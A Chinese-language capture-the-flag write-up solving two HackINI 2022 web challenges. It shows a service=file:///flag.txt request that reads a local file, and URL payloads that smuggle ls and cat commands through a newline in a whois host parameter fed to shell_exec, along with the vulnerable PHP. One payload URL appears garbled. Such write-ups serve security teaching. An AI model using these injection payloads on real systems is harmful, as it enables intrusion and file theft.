

# nextGen 1 [HackINI](https://ctf.bugku.com/challenges/index/gid/2/tag/98.html)  [2022](https://ctf.bugku.com/challenges/index/gid/2/tag/100.html)

> Flag is in the `/flag.txt` file of the web server

这个是题目的提示

[http://49.232.142.230:10294](http://49.232.142.230:10294/)

题目靶机


打开后发现只有Main和Overview是动态的，另外两个是静态的

题目提示flag在flag.txt,那我们尝试请求



提示没有找到

## 观察请求参数（3）

1. 在开发者攻击中使用网络界面查看，之后刷新后避免干扰，再随便点一个然然后可以发现以恶搞post请求，之后就可以复制其请求头了service=http://hr.dep.nextgen.org/overview

2.用burp

于是我们可以发现这是一个以post为请求方式的参数是service的请求

于是我们可以开始构造

使用POST请求提交service=file:///flag.txt。

shellmates{1T_W4S_4_qu1T3_3s4y_expl01tabL3_$$Rf}

# Whois

                                                                [HackINI](https://ctf.bugku.com/challenges/index/gid/2/tag/98.html)

[2022](https://ctf.bugku.com/challenges/index/gid/2/tag/100.html)

> ​                                There was a problem with the first version, this is the fixed version. 

http://49.232.142.230:18132

payload1

```
http://49.232.142.230:18132/query.php?host=whois.verisign-grs.com%0a&query=ls
```

> ```
> index.html
> query.php
> thisistheflagwithrandomstuffthatyouwontguessJUSTCATME
> ```

palyload2

```
http://49.232.142.230:18132/query.php?host=whois.verisign-grs.com%0A&query=ls/query.php?host=whois.veris-grs.com%0a&query=cat%20thisistheflagwithrandomstuffthatyouwontguessJUSTCATME
```

```
shellmates{i_$h0U1D_HaVE_R3AD_7HE_dOc_W3Ll_9837432986534065}
```

## 思路解释

```
<?php
error_reporting(0);
$output = null;
// 正则限制
$host_regex = "/^[0-9a-zA-Z][0-9a-zA-Z\.-]+$/";
$query_regex = "/^[0-9a-zA-Z\. ]+$/";

if (isset($_GET['query']) && isset($_GET['host'])) {
    $query = $_GET['query'];
    $host = $_GET['host'];
    
    // 正则匹配检测
    if (!preg_match($host_regex, $host) || !preg_match($query_regex, $query)) {
        $output = "Invalid query or whois host";
    } else {
        // 危险：直接拼接命令
        $output = shell_exec("/usr/bin/whois -h ${host} ${query}");
    }
}
?>
```

关键漏洞代码：shell_exec("/usr/bin/whois -h ${host} ${query}");

> 让服务器执行一条系统命令：查询域名的 Whois 信息

其中usr/bin/whois是linux的一个程序

用来查询注册信息，后面的两个就是查询的参数都是需要我们自己填写

## 漏洞要点

其中shell_exec函数直接把用户输入的东西进行拼接，我们便可以利用换行来进行多次操作

```bash
/usr/bin/whois -h whois.veris-grs.com
ls
```

